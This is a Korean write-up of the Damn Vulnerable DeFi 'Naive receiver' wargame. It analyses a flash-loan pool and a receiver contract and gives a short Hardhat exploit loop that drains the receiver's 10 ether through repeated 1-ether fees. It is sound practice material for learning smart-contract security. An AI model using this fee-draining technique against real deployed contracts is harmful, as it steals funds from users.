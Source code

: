 ```yaml
---
title: "DamnVulnerableDefi Naive receiver 풀이"
author: Grizzly
categories:
  - Wargame
tags:
  - DamnVulnerableDefi
  - NaiveReceiver

sitemap :
changefreq : daily
priority : 1.0
# table of contents
toc: true # 오른쪽 부분에 목차를 자동 생성해준다.
toc_label: "table of content" # toc 이름 설정
toc_icon: "bars" # 아이콘 설정
toc_sticky: true # 마우스 스크롤과 함께 내려갈 것인지 설정
---
```


## Overview
`Unstoppable`에 이은 Damn Vulnerable Defi 워게임의 2번째 문제이다. 
(하지만, 여느 워게임이 그렇듯 문제간 연관성은 없다;P)

첫 번째 문제에 서술되어 있듯이, 이 워게임에서 제공되는 문제들은 `Solidity`로 작성된 스마트 컨트랙트 파일(들)과 `Javascript`로 작성된 익스플로잇 코드 템플릿을 제공한다. 익스플로잇 코드 템플릿은 `Hardhat`과 `Mocha` 프레임워크로 작성되어 크게 템플릿 코드가 크게 `before`, `it`, `after`로 구분된다. `before` 파트는 문제의 스마트 컨트랙트를 배포하고 초기 자본(?) 설정 등과 같은 초기화를 담당한다. `it` 파트에는 스마트 컨트랙트를 익스플로잇하기 위한 코드가 위치하며, 플레이어가 작성할 수 있도록 비워져있다. 마지막으로, `after` 파트에는 문제의 달성 조건이 작성되어있다. 

워게임 플레이어는 스마트 컨트랙트와 익스플로잇 코드의 after 파트를 확인해서, 문제의 방향을 확인해야 한다.
(물론, 워게임 [사이트](https://www.damnvulnerabledefi.xyz/)에도 글로 잘 작성되어 있다.)

본론으로 들어가서, 이 문제에서는 2개의 스마트 컨트랙트(`FlashLoanReceiver.sol`, `NaiveReceiverLenderPool.sol`)가 주어진다. `NaiveRecevierLenderPool`은 flashLoan 서비스를 제공하는 컨트랙트이고, 초기 자본 `1000 ether`를 가지고 있다. `FlashLoanReceiver`는 대출을 받는 컨트랙트이고, 초기 자본 `10 ehter`를 가지고 있다. 이 문제의 목표는 ***flashLoan 서비스를 통해 `NaiveReceiverLenderPool`이 `FlashLoanReceiver`가 가진 `10 ether`를 모두 가져가게 만드는 것이 목표다.***

## 컨트랙트 분석
사실 분석이라고 할 것까지도 없는 민망한 컨트랙트이지만, 제공된 2개의 컨트랙트의 기능을 확인해본다.

### NaiveReceiverLenderPool

```Solidity
    ...
    function flashLoan(address borrower, uint256 borrowAmount) external nonReentrant {

        uint256 balanceBefore = address(this).balance;
        require(balanceBefore >= borrowAmount, "Not enough ETH in pool");


        require(borrower.isContract(), "Borrower must be a deployed contract");
        // Transfer ETH and handle control to receiver
        borrower.functionCallWithValue(
            abi.encodeWithSignature(
                "receiveEther(uint256)",
                FIXED_FEE
            ),
            borrowAmount
        );
        
        require(
            address(this).balance >= balanceBefore + FIXED_FEE,
            "Flash loan hasn't been paid back"
        );
    }
    ...
```
가장 중요한 `flashLoan` 함수만 보면, 
1. 대출자의 주소(`borrower`)와 대출금액(`borrowAmount`)을 매개변수로 전달받아, 
2. 대출 전 잔액인 `balanceBefore`가 `borrowAmount`보다 크면, 
3. `borrower`(컨트랙트)의 `receiveEther` 함수를 호출한다. 
4. `receiveEther` 함수 호출시, 고정 수수료(`FIXED_FEE`)를 매개변수로 전달하고, trasaction value로 `borrowAmount`를 전달한다. 
5. 마지막으로, 상환된 금액을 체크한다. 
   
전체 컨트랙트 코드를 보면 알 수 있자만, `FIXED_FEE`는 `1 ether`로 설정되어 있다.

### FlashLoanReceiver

```Solidity
    ...
    // Function called by the pool during flash loan
    function receiveEther(uint256 fee) public payable {
        require(msg.sender == pool, "Sender must be pool");

        uint256 amountToBeRepaid = msg.value + fee;

        require(address(this).balance >= amountToBeRepaid, "Cannot borrow that much");
        
        _executeActionDuringFlashLoan();
        
        // Return funds to pool
        pool.sendValue(amountToBeRepaid);
    }
    ...
```
여기에서도 `receiveEther` 함수만 살펴본다. 
1. 이 함수는 수수료(`fee`)를 매개변수로 전달받아, 
2. `msg.sender`가 `NaiveReceiverLenderPool` 컨트랙트인지 확인한다. 
3. 상환 금액인 `amountToBeRepaid`을 `msg.value`와 `fee`의 합으로 계산하고,
4. `amountToBeRepaid`가 현재 잔액 이하인 경우,
5. 대출금을 사용하는 `_executeActionDuringFlashLaon` 함수를 실행하고 (이 문제에서는 아무런 동작도 하지 않음),
6. `amountToBeRepaid`만큼 `NaiveReceiverLenderPool`에 상환한다.

## Solution
이 문제는 너무 쉬워서 풀이라 할 것도 없다... `FlashLoanReceiver`가 얼마를 대출하던 항상 수수료로 `1 ether`가 지출되기 떄문에 대출금을 `0`으로 설정하고 `flashLoan` 함수를 `10`번 호출하면, `FlashLoanReceiver`의 자본 `10 ether`를 모두 소진하게 된다.

```Javascript
    ...
    it('Exploit', async function () {
        /** CODE YOUR EXPLOIT HERE */   
        for (var i = 0;i < 10;++i) {
            await this.pool.connect(attacker).flashLoan(this.receiver.address, 0);
        }
    });
    ...
```

***EZ***